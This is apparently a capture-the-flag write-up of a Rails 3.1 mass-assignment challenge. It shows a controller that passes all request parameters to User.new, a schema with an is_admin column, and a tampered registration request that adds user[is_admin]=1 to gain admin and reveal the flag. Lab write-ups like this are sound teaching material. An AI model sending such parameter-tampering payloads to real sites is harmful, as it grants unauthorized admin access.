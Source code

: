 # Massive Fail - 120

```
Fed up with their recent PHP related issues, Daedalus Corp. has switched their website to run on Ruby on Rails (version 3.1.0) instead. Their brand new registration page does not seem like much of an improvement though... [Source].
```

Another web challenge which I really do not like but this one was not that bad.

Hints:The source code files app/controllers/user_controller.rb and db/schema.rb are particularly interesting.

I downloaded the file and saw the source code:

```
class UserController < ApplicationController
  def register     
  end

  def create
    # User.new creates a new user according to ALL the parameters
    @new_user = User.new(params[:user])
    @new_user.save
  end
end

/Users/Danny/Downloads/daedalus/db/schema
s file is auto-generated from the current state of the database. Instead
# of editing this file, please use the migrations feature of Active Record to
# incrementally modify your database, and then regenerate this schema definition.
#
# Note that this schema.rb definition is the authoritative source for your
# database schema. If you need to create the application database on another
# system, you should be using db:schema:load, not running all the migrations
# from scratch. The latter is a flawed and unsustainable approach (the more migrations
# you'll amass, the slower it'll run and the greater likelihood for issues).
#
# It`s strongly recommended to check this file into your version control system.

ActiveRecord::Schema.define(:version => 20141008175655) do

  create_table "users", :force => true do |t|
    t.string   "username"
    t.string   "password"
    t.string   "name"
    t.boolean  "is_admin"
    t.datetime "created_at"
    t.datetime "updated_at"
  end
end
```

Note:
* It creates the user according to the parameter. This means we can supply more parameters.
* if we can set is_admin to true, then we can login as a admin and get the flag.

I used burpsuit to intercept and change the parameter:

```
//original
utf8=%E2%9C%93&authenticity_token=CWLvj9dSzplMD26pvqYbNzQF8aNJU9agNoUAtCYqCZc%3D&user%5Bname%5D=hello&user%5Busername%5D=ass&user%5Bpassword%5D=aaa&commit=Register 

//My payload
utf8=&authenticity_token=AoWUyax4REP8QNlLPiN3jpLsXXjSPtco9VgAMgWrlQQ=&user[name]=asdf&user[username]=asdf&user[password]=asdf1&user[is_admin]=1&commit=Register
```

Response:

```
Registration Complete!
Welcome asdf!

You`re an admin, so you get to know the secret code: no_framework_is_without_sin
```



